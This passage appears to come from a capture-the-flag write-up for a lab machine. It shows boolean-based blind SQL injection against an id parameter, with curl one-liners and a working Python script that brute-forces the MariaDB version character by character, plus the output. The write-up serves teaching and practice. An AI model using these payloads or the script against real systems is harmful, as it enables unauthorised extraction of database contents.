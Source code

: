 I can put more interesting checks into that spot. For example, if I want to
check the version of database running, I can brute force it character by
character by replacing the `1=1` with `substring(@@version,1,1)=a` to check if
the first character is a.

So knowing that the database version starts with `1`, I can show that this
works:

    
    
    root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='a'--+-" | grep -q 2001); then echo false; else echo true; fi
    false
    root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='0'--+-" | grep -q 2001); then echo false; else echo true; fi
    false
    root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='1'--+-" | grep -q 2001); then echo false; else echo true; fi
    true
    

I can even throw together a quick `python` script that will brute the version
for me:

    
    
    #!/usr/bin/env python3
    
    import requests
    import string
    import sys
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    
    i = 1
    while True:
        done = True
        for c in string.printable[:-10]:
            param = {"id": f"587' and substring(@@version,{i},1)='{c}'-- -"}
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            resp = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False, proxies={'https': 'https://127.0.0.1:8080'})
            if not "2001" in resp.text:
                sys.stdout.write(c)
                sys.stdout.flush()
                i += 1
                done = False
                break
        if done:
            break
    
    
    
    root@kali# ./sqli.py
    10.1.37-mariadb-0+deb9u1
    

#### sqlmap
